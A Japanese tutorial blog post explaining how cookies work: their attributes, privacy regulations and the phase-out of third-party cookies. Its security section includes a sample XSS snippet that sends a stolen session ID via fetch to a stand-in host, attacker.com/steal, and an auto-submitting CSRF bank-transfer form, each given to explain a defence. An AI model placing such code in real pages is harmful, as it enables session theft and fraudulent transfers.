








## Zenn問答とは

仕事や調べ物をする上でなんとなく理解したけど、完全に理解できずに止まってしまったものをちょっと時間をとって深掘りしていくコーナーです。

## はじめに

最近はブラウザでもcookieを保存しますか？というダイアログが出てくることがよくありまして、一般の方にも用語だけの認知度は高まっているcookieについて深掘りしてみたいと思います。

## cookieとは？

cookieは、Webサーバーがユーザーのブラウザに保存する小さなテキストデータです。ユーザーがWebサイトを訪問した際に、サーバーからブラウザにHTTPレスポンスヘッダーの`Set-Cookie`として送信され、以降のリクエストではHTTPリクエストヘッダーの`Cookie`として自動的にサーバーに送り返されます。
このテキストデータはユーザーを特定し、ログイン状態やカートの中身の状態など、サーバー側に保存されている情報を復元するのに使われたりしています。

### cookieの基本的な仕組み



## ブラウザはどうやって送るcookieを選定するのか？

ブラウザがcookieを送信するかどうかは、以下の条件に基づいて決定されます：

### 1. Domain属性による判定



### 2. Path属性による判定



### 3. Secure属性による判定

```javascript
// HTTPSでのみ送信されるcookie
document.cookie = "secureData=value; Secure";

// HTTPでアクセスした場合、このcookieは送信されない
```

### 4. SameSite属性による判定



これらの属性は、サーバーがHTTPレスポンスで`Set-Cookie`ヘッダーを送信する際に設定されます。ブラウザはこの`Set-Cookie`ヘッダーを受信すると、指定された属性と値をそのままcookieストレージに保存します。

```http
HTTP/1.1 200 OK
Set-Cookie: sessionId=abc123; Domain=.example.com; Path=/; Secure; SameSite=Strict
```

ブラウザの開発者ツールなどでcookieの属性を手動で変更した場合、確かに本来送信されるべきでないリクエストでもcookieが送信される可能性があります。たとえば、`SameSite=Strict`を`SameSite=None`に変更すると、クロスサイトリクエストでもcookieが送信されるようになってしまいます。

ただし、これはローカルでの変更であり、他のユーザーには影響しません。また、セキュリティ上重要なのは、サーバー側で適切な検証を行うことです。

## cookieの主な用途

cookieを使って何ができるのか、具体的な用途を見てみましょう。

### 1. セッション管理

ユーザーのログイン状態を保持するために使用されます。サーバーから発行されたセッションIDやトークンを保存し、ユーザーが認証済みかどうかを判定します。

```javascript
// ログイン時にセッションIDを保存
document.cookie = "sessionId=abc123xyz; path=/; HttpOnly; Secure; SameSite=Strict";

// ログアウト時にセッションを削除
document.cookie = "sessionId=; expires=Thu, 01 Jan 1970 00:00:00 UTC; path=/";
```

### 2. ユーザー設定の保存

テーマ、言語設定、フォントサイズなど、ユーザーの好みを記憶しておくために使用されます。

```javascript
// テーマ設定を保存
document.cookie = "theme=dark; path=/; expires=Thu, 01 Jan 2025 00:00:00 UTC";

// 言語設定を保存
document.cookie = "language=ja; path=/; expires=Thu, 01 Jan 2025 00:00:00 UTC";
```

### 3. 購買データの保存

ECサイトでは、カート情報や最近見た商品などを保存するために使用されます。

```javascript
// カート情報を保存
const cartData = JSON.stringify([{id: 1, name: "商品A", quantity: 2}]);
document.cookie = `cart=${encodeURIComponent(cartData)}; path=/; expires=Thu, 01 Jan 2025 00:00:00 UTC`;
```

### 4. 分析・トラッキング

ユーザーの行動を分析するために、訪問回数やページビューなどのデータを保存します。

```javascript
// 訪問回数をカウント
const visitCount = parseInt(getCookie('visitCount') || '0') + 1;
document.cookie = `visitCount=${visitCount}; path=/; expires=Thu, 01 Jan 2025 00:00:00 UTC`;
```

ただし、この例の場合にはユーザー側で簡単に書き換えられてしまうため書き換えられて困るようなものはサーバー側に持つようにするのがよいのかなと思います。

## cookieの属性について

cookieには名前と値以外に、ブラウザの動作を制御するための予約された属性があります。これらの属性は`Set-Cookie`ヘッダーでセミコロン区切りで指定されます。

### 予約された属性一覧

#### 送信範囲を制御する属性
- **Domain**: cookieが送信されるドメインを指定
- **Path**: cookieが送信されるパスを指定
- **Secure**: HTTPS通信でのみ送信
- **SameSite**: クロスサイトリクエストでの送信を制御（Strict/Lax/None）

#### 有効期限を制御する属性
- **Expires**: 絶対的な有効期限を指定（GMT形式の日時）
- **Max-Age**: 相対的な有効期限を指定（秒数）

#### アクセス制御の属性
- **HttpOnly**: JavaScriptからのアクセスを禁止
- **Partitioned**: 第三者コンテキストでのパーティション化を有効にする（実験的）

### 属性の具体例

```http
Set-Cookie: sessionId=abc123; Domain=.example.com; Path=/admin; Secure; HttpOnly; SameSite=Strict; Max-Age=3600
```

この例では：
- `sessionId=abc123`: 名前と値（自由に設定可能）
- `Domain=.example.com`: example.comとそのサブドメインで有効
- `Path=/admin`: /adminパス以下でのみ送信
- `Secure`: HTTPS通信でのみ送信
- `HttpOnly`: JavaScriptからアクセス不可
- `SameSite=Strict`: 同一サイトのリクエストでのみ送信
- `Max-Age=3600`: 3600秒（1時間）後に有効期限切れ

### 属性の優先順位

同じcookieに対して`Expires`と`Max-Age`が両方指定された場合、`Max-Age`が優先されます。また、`Domain`が指定されていない場合は、cookieを設定したドメインでのみ有効になります。

```javascript
// ExpiresとMax-Ageが両方指定された場合、Max-Ageが優先される
document.cookie = "test=value; expires=Thu, 01 Jan 2025 00:00:00 UTC; max-age=3600";
// この場合、3600秒後（1時間後）に期限切れ
```

## セキュリティ属性と攻撃パターン

各セキュリティ属性を設定しないと、以下のような攻撃が考えられます。実際にどのような攻撃が起こるのか、具体的に見てみましょう。

### 1. HttpOnly属性未設定時のXSS攻撃

`HttpOnly`属性が設定されていない場合、JavaScriptからcookieにアクセスできるため、XSS攻撃によってセッションIDが盗まれる可能性があります。



```javascript
// ❌ 危険な例：JavaScriptからアクセス可能
document.cookie = "sessionId=abc123";

// 攻撃者のスクリプトが実行されると...
const stolenSession = document.cookie.match(/sessionId=([^;]+)/)[1];
fetch('https://attacker.com/steal', { 
    method: 'POST', 
    body: stolenSession 
});
```

このような攻撃を防ぐためには、重要なcookieには必ず`HttpOnly`属性を設定する必要があります。

### 2. Secure属性未設定時の盗聴攻撃

`Secure`属性が設定されていない場合、HTTP通信でもcookieが送信されるため、通信内容を盗聴される可能性があります。



特に公共のWi-Fiなど、セキュアでないネットワークでは注意が必要です。重要なcookieには必ず`Secure`属性を設定し、HTTPS通信でのみ送信されるようにしましょう。

### 3. SameSite属性未設定時のCSRF攻撃

`SameSite`属性が設定されていない場合、クロスサイトリクエストフォージェリ（CSRF）攻撃を受ける可能性があります。



```html
<!-- 悪意のサイトのHTML -->
<form action="https://bank.com/transfer" method="POST">
    <input type="hidden" name="amount" value="1000000">
    <input type="hidden" name="to" value="attacker-account">
</form>
<script>
    // ページ読み込み時に自動送信
    document.forms[0].submit();
</script>
```

ユーザーが銀行サイトにログインしている状態で上記のような悪意のサイトにアクセスすると、裏側でcookieがあることをいいことに、知らない間に送金処理が実行されてしまう可能性があります。

**重要な点として、`HttpOnly`属性が設定されていてもCSRF攻撃は防げません。**

```http
Set-Cookie: sessionId=abc123; HttpOnly; Secure
```

上記のようにHttpOnlyが設定されていても、CSRF攻撃では以下の理由で攻撃が成功してしまいます：

1. **cookieの内容を読む必要がない**: 攻撃者はcookieの値を知る必要がなく、ブラウザが自動的に送信してくれることを利用
2. **フォーム送信は通常のHTTPリクエスト**: JavaScriptを使わずに`<form>`要素で送信するため、HttpOnlyの制限を受けない
3. **ブラウザが自動的にcookieを付与**: クロスサイトでも、ブラウザはリクエストに自動的にcookieを含める



そのため、CSRF攻撃を防ぐためには`SameSite=Strict`または`SameSite=Lax`の設定が必要です。これにより、クロスサイトからのリクエストでcookieが送信されなくなります。

## プライバシーと規制への対応

近年、cookie使用に関する規制が厳しくなっています。GDPR（一般データ保護規則）やCCPA（カリフォルニア州消費者プライバシー法）などの規制に対応する必要があります。

### 主要な規制とその概要

#### GDPR（一般データ保護規則）
EU圏内のユーザーの個人データを扱う際の規制です。cookieも個人データに該当する場合があります。

**主な要件：**
- **明示的な同意**: ユーザーの明確な同意が必要
- **目的の明示**: cookieを何に使用するかを明確に説明
- **撤回可能**: 同意を簡単に撤回できる仕組みが必要
- **必要最小限**: 目的に必要な範囲でのみcookieを使用

#### CCPA（カリフォルニア州消費者プライバシー法）
カリフォルニア州の住民を対象とした規制です。

**主な要件：**
- **オプトアウト**: ユーザーが個人情報の販売を拒否できる権利
- **情報開示**: 収集する情報の種類と目的の開示
- **削除権**: ユーザーが個人情報の削除を要求できる権利

### cookieの分類と対応

Webサイトで使用するcookieを適切に分類し、それぞれに応じた対応を行う必要があります。

#### 1. 必須cookie（Strictly Necessary）
ウェブサイトの基本機能に必要なcookieで、同意なしで使用できます。セッション管理、セキュリティ対策、基本的な設定保存などが該当します。

#### 2. 機能的cookie（Functional）
ユーザー体験の向上のためのcookieで、同意を取得することが望ましいです。テーマ設定、言語設定、ショッピングカートの状態保存などが該当します。

#### 3. 分析cookie（Analytics）
ウェブサイトの分析と改善のためのcookieで、事前同意が必須です。Google Analytics、訪問回数の計測、ページビューの追跡などが該当します。

#### 4. マーケティングcookie（Marketing）
広告の配信と効果測定のためのcookieで、事前同意が必須です。Facebook Pixel、Google広告、リターゲティング広告などが該当します。

### サードパーティcookieについて

サードパーティcookieは、ユーザーが現在訪問しているサイト以外のドメインによって設定されるcookieです。主に広告配信や行動追跡に使用されてきましたが、プライバシーの観点から問題視されています。

#### ファーストパーティとサードパーティの違い

**ファーストパーティcookie:**
- 訪問中のサイトと同じドメインが設定
- 例: `example.com`を訪問中に`example.com`が設定するcookie
- 一般的にはユーザーが期待する動作

**サードパーティcookie:**
- 訪問中のサイトとは異なるドメインが設定
- 例: `example.com`を訪問中に`google-analytics.com`が設定するcookie
- 複数サイト間でのユーザー追跡が可能

#### 段階的廃止の動き

主要ブラウザはサードパーティcookieの廃止を進めています：

- **Safari**: 2020年から完全ブロック
- **Firefox**: Enhanced Tracking Protectionでブロック
- **Chrome**: 2024年から段階的廃止を開始（当初予定から延期）

この変化により、従来の広告配信やアナリティクス手法の見直しが必要になっています。

#### パーソナライズ広告への影響と代替手段

これまでパーソナライズ広告（直前に検索した商品の広告が他のサイトで表示されるなど）は、主にサードパーティcookieによって実現されていました。サードパーティcookie廃止により、以下のような代替手段が開発・導入されています：

**1. Google Topics API**
- ユーザーの閲覧履歴から興味のあるトピック（「スポーツ」「料理」など）を特定
- 個人を直接追跡せず、興味カテゴリベースで広告配信
- プライバシーを保護しながら関連性の高い広告を表示

**2. ファーストパーティデータの活用強化**
- 企業が自社サイト内でのユーザー行動を詳細に分析
- 会員登録やメール配信リストなどの直接的な関係を重視
- CRM（顧客関係管理）システムとの連携強化

**3. 文脈広告（Contextual Advertising）の復活**
- ページの内容を解析して関連する広告を表示
- ユーザー追跡ではなく、表示しているコンテンツに基づく広告配信
- 例：料理レシピページには調理器具の広告を表示

**4. プライバシーサンドボックス技術**
- **FLEDGE**: リマーケティング広告をプライバシー保護して実現
- **Attribution Reporting API**: 広告効果測定をプライバシー配慮して実行
- **Trust Tokens**: 不正防止をプライバシー保護して実現

**5. サーバーサイド広告配信**
- 広告配信ロジックをサーバー側で処理
- ブラウザでの個人情報収集を最小化
- 匿名化された集約データの活用

これらの技術により、ユーザーのプライバシーを保護しながらも、ある程度のパーソナライゼーションを維持する方向に業界全体が移行しています。ただし、従来ほど精密な個人追跡は困難になるため、広告の精度や効果は変化する可能性があります。

### cookieの技術的制限

cookieには様々な技術的制限があり、これらを理解して適切に設計する必要があります。

#### サイズ制限
- **1つのcookieあたり**: 最大4KB（4,096バイト）
- **ドメインあたりの総数**: 一般的に50〜180個程度（Chromeの場合は180個）
- **すべてのcookieの合計サイズ**: ブラウザごとに制限あり（Chromeの場合は約4MB）

```javascript
// 4KBを超えるcookieは設定できない
const largeData = 'x'.repeat(5000); // 5KB
document.cookie = `largeData=${largeData}`; // 失敗または切り詰められる
```

#### ドメイン制限
- cookieは設定されたドメインまたはそのサブドメインでのみ利用可能
- 異なるドメイン間でのcookie共有は不可

#### パフォーマンスへの影響
cookieは毎回のHTTPリクエストに自動的に含まれるため、以下の点に注意が必要です：

- **リクエストサイズの増加**: 大量のcookieがあるとリクエストが重くなる
- **帯域幅の消費**: 特にモバイル環境では影響が大きい
- **API呼び出しへの影響**: 同じドメインへのAPIリクエストにもcookieが付与される

## まとめ

cookieはWebアプリケーションの状態管理に便利な技術ですが、使い方を誤ると攻撃対象になりうるものだということを改めて理解できました。

ちょっと覚えることは多かったですが、仕組み自体はシンプルだなぁという印象でした。これで今後cookieという言葉を聞くたびに感じていた後ろめたさがなくなった気がします。この記事を読んでくださった方のcookieの理解の一助になれば幸いです、最後まで読んでいただきありがとうございました！
